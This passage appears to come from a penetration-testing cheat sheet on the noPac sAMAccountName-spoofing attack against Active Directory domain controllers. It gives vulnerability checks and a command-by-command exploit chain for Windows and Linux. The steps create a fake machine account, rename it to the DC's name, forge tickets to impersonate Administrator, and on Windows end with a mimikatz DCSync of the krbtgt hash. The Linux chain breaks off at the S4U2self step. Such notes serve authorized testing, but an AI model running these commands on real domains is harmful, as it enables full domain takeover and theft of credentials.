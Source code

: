 Check:

{% tabs %}
{% tab title="Windows" %}
Look at the size of the returned TGT. If the DC is not vulnerable, the TGT will contain the PAC part and be obviously larger:

```
PS > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:snovvcrash /password:Passw0rd! /nopac /nowrap
```
{% endtab %}
{% tab title="Linux" %}
```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -M nopac
```
{% endtab %}
{% endtabs %}

Exploit:

{% tabs %}
{% tab title="Windows" %}
```powershell
# create a new machine account
PM > New-MachineAccount -Domain megacorp.local -DomainController DC01.megacorp.local -MachineAccount FakeMachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
# clear SPNs
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Clear servicePrincipalName -Verbose
# change fake machine's sAMAccountName
PM > Set-MachineAccountAttribute -MachineAccount FakeMachine -Value DC01 -Attribute sAMAccountName -Verbose
# request TGT
PS > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DC01 /password:Passw0rd! /nowrap
# change fake machine's sAMAccountName once again
PM > Set-MachineAccountAttribute -MachineAccount FakeMachine -Value FakeMachine -Attribute sAMAccountName -Verbose
# request S4U2self
PS > .\Rubeus.exe s4u /domain:megacorp.local /dc:DC01.megacorp.local /altservice:LDAP/DC01.megacorp.local /impersonateuser:Administrator /self /ptt /ticket:<BASE64_TGT>
# fire DCSync
PS > .\mimikatz.exe "lsadump::dcsync /domain:megacorp.local /dc:DC01.megacorp.local /user:MEGACORP\krbtgt" "exit"
```
{% endtab %}
{% tab title="Linux" %}
- [https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383](https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383)

```bash
# create a new machine account
$ addcomputer.py -computer-name FakeMachine -computer-pass 'Passw0rd1!' -dc-host DC01.megacorp.local -dc-ip 192.168.1.11 megacorp.local/snovvcrash:'Passw0rd2!'
# clear SPNs
$ addspn.py -u 'megacorp.local\snovvcrash' -p 'Passw0rd2!' -t 'FakeMachine$' -c DC01
# change fake machine's sAMAccountName
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name 'FakeMachine$' -new-name DC01
# request TGT
$ getTGT.py megacorp.local/DC01:'Passw0rd1!' -dc-ip 192.168.1.11
# change fake machine's sAMAccountName once again
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name DC01 -new-name 'FakeMachine$'
# request S4U2self
```
